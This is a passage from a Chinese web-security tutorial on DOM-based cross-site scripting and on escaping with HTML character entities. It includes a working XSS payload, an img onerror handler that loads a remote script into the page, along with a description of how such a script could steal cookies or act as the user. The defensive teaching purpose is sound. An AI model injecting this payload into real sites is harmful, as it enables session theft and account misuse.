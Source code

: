 <p>此时立刻就弹窗了 1。</p>
<p>也许你会想，不就是弹窗个 1 吗？还能怎么样？能写多少代码？</p>
<p>那我把地址改成 <code>www.example.com/user.html?name=&lt;img src=@ onerror='var s=document.createElement("script");s.src="https://mqyqingfeng.github.io/demo/js/alert.js";document.body.appendChild(s);' /&gt;</code> 呢？</p>
<p>就相当于：</p>
<div class="widget-codetool" style="display:none;">
      <div class="widget-codetool--inner">
      <span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="全选"></span>
      <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="document.getElementById(&quot;username&quot;).innerHTML = &quot;<img src=@ onerror='var s=document.createElement(\&quot;script\&quot;);s.src=\&quot;https://mqyqingfeng.github.io/demo/js/alert.js\&quot;;document.body.appendChild(s);' />&quot;;" title="" data-original-title="复制"></span>
      <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="放进笔记"></span>
      </div>
      </div><pre class="javascript hljs"><code class="js" style="word-break: break-word; white-space: initial;"><span class="hljs-built_in">document</span>.getElementById(<span class="hljs-string">"username"</span>).innerHTML = <span class="hljs-string">"&lt;img src=@ onerror='var s=document.createElement(\"script\");s.src=\"https://mqyqingfeng.github.io/demo/js/alert.js\";document.body.appendChild(s);' /&gt;"</span>;</code></pre>
<p>整理下其中 onerror 的代码：</p>
<div class="widget-codetool" style="display:none;">
      <div class="widget-codetool--inner">
      <span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="全选"></span>
      <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="var s = document.createElement(&quot;script&quot;);
s.src = &quot;https://mqyqingfeng.github.io/demo/js/alert.js&quot;;
document.body.appendChild(s);" title="" data-original-title="复制"></span>
      <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="放进笔记"></span>
      </div>
      </div><pre class="javascript hljs"><code class="js"><span class="hljs-keyword">var</span> s = <span class="hljs-built_in">document</span>.createElement(<span class="hljs-string">"script"</span>);
s.src = <span class="hljs-string">"https://mqyqingfeng.github.io/demo/js/alert.js"</span>;
<span class="hljs-built_in">document</span>.body.appendChild(s);</code></pre>
<p>代码中引入了一个第三方的脚本，这样做的事情就多了，从取你的 cookie，发送到黑客自己的服务器，到监听你的输入，到发起 CSRF 攻击，直接以你的身份调用网站的各种接口……</p>
<p>总之，很危险。</p>
<p>为了防止这种情况的发生，我们可以将网址上的值取到后，进行一个特殊处理，再赋值给 DOM 的 innerHTML。</p>
<h2 id="articleHeader2">字符实体</h2>
<p>问题是怎么进行转义呢？而这就要谈到字符实体的概念了。</p>
<p>在 HTML 中，某些字符是预留的。比如说在 HTML 中不能使用小于号（&lt;）和大于号（&gt;），因为浏览器会误认为它们是标签。</p>
<p>如果希望正确地显示预留字符，我们必须在 HTML 源代码中使用字符实体（character entities）。</p>
<p>字符实体有两种形式：</p>
<ol>
<li><code>&amp;entity_name;</code></li>
<li>
<code>&amp;#entity_number;</code>。</li>
</ol>
<p>比如说我们要显示小于号，我们可以这样写：<code>&amp;lt;</code> 或 <code>&amp;#60</code>;</p>
<p>值得一提的是，使用实体名而不是数字的好处是，名称易于记忆。不过坏处是，浏览器也许并不支持所有实体名称（但是对实体数字的支持却很好）。</p>
<p>也许你会好奇，为什么 <code>&lt;</code> 的字符实体是 <code>&amp;#60</code> 呢？这是怎么进行计算的呢？</p>
<p>其实很简单，就是取字符的 unicode 值，以 <code>&amp;#</code> 开头接十进制数字 或者以 <code>&amp;#x</code>开头接十六进制数字。举个例子：</p>
<div class="widget-codetool" style="display:none;">
      <div class="widget-codetool--inner">
      <span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="全选"></span>
      <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="var num = '<'.charCodeAt(0); // 60
num.toString(10) // '60'
num.toString(16) // '3c'" title="" data-original-title="复制"></span>
      <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="放进笔记"></span>